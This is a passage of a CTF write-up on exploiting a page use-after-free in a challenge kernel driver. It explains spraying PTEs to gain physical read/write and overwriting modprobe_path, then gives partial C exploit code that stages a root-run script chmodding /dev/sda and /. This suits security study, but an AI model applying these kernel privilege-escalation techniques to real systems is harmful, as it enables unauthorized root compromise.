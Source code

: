 ### Exploiting page UAF

There are many ways to exploit a page UAF.
This is a CTF so you can just get away with a cred spray, given that I didn't limit the number of UAF pages you can have.
But obv we want a cool™️ exploit.

The intended solution sprays PTEs and corrupts them to get physical arbitrary read / write.
After getting physical arb r/w on the kernel you can do many things, the provided exploit overwrites modprobe path.

Keep in mind that:

- Physical kASLR is present, so you need to scan the System RAM phys range to find the kernel
- kCFI is enabled, so reclaiming the freed page with some slab containing some objects with function pointers won't work ( or maybe just not so easily :) )

## Exploit

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <err.h>
#include <string.h>
#include <sys/mman.h>

int main()
{
 int fd;
#define N_UAF_MAPS 1000
 unsigned long *uaf_maps[N_UAF_MAPS];
 char c;
 int pfds1[2], pfds2[2];
 int child_pid;

 /* prepare modprobe path */
 system("echo '#!/bin/sh\nchmod 777 /dev/sda /\n' > /tmp/a");
 system("chmod +x /tmp/a");
 system("touch /tmp/dummy");
 system("chmod +x /tmp/dummy");
 system("echo -n '\xff\xff\xff\xff' > /tmp/dummy");

 /* open dev */
 fd = open("/dev/pwn", O_RDWR);
 if (fd < 0)
  err(1, "open dev");

 /* prepare uaf pages */
 for (size_t i = 0; i < N_UAF_MAPS; i++)
 {
  uaf_maps[i] = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, fd, 0);
  if (uaf_maps[i] == MAP_FAILED)
   err(1, "mmap dev");

  if (madvise(uaf_maps[i], 0x1000, MADV_DOFORK) < 0)
   err(1, "madvise(MADV_DO_FORK)");

  *uaf_maps[i] = 0xdeadbeef;
 }

 /* child comm pipes */
 if (pipe(pfds1) < 0)
  err(1, "pipe");
```
